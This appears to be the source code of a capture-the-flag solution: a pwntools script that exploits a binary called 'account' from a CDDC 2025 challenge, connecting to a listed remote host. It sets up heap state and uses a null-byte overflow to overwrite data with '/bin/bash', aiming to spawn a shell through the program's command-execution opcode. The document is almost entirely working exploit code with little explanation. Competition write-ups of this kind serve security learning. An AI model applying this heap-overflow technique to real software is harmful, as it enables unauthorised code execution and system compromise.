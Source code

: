 ```py
from pwn import *

elf = context.binary = ELF("./account")
libc = elf.libc
if args.REMOTE:
	p = remote("cddc2025-challs-nlb-579269aea83cde66.elb.ap-southeast-1.amazonaws.com", 7777)
else:
	p = elf.process()

sla = lambda a, b: p.sendlineafter(a, b)
sa = lambda a, b: p.sendafter(a, b)
sl = lambda a: p.sendline(a)
s = lambda a: p.send(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(a)

def create_account(account_type, data):
    """Opcode 0: Create account
    account_type: 0 = binary/wide string, 1 = regular string
    Returns: account_id (0-15) or -1 on failure
    """
    payload = p8(0) + p8(account_type) + data
    s(payload)

def delete_account(account_id):
    """Opcode 1: Delete account (op_1)"""
    payload = p8(1) + p8(account_id)
    s(payload)

def update_account(account_id, mode, data):
    """Opcode 2: Update account data
    mode: 0 = binary/wide string, 1 = regular string
    """
    payload = p8(2) + p8(account_id) + p8(mode) + data
    s(payload)

def display_account(account_id):
    """Opcode 3: Display account data"""
    payload = p8(3) + p8(account_id)
    s(payload)

def execute_command():
    """Opcode 255: Execute system command"""
    payload = p8(255)
    s(payload)

# setup heap state
create_account(1, b"A"*30)
pause()
create_account(1, b"B"*1)
pause()
execute_command()
pause()

# null-byte overflow
update_account(0, 0, b"D"*30)
pause()

# overflow
update_account(1, 0, b"D /bin/bash")
pause()

# run command
```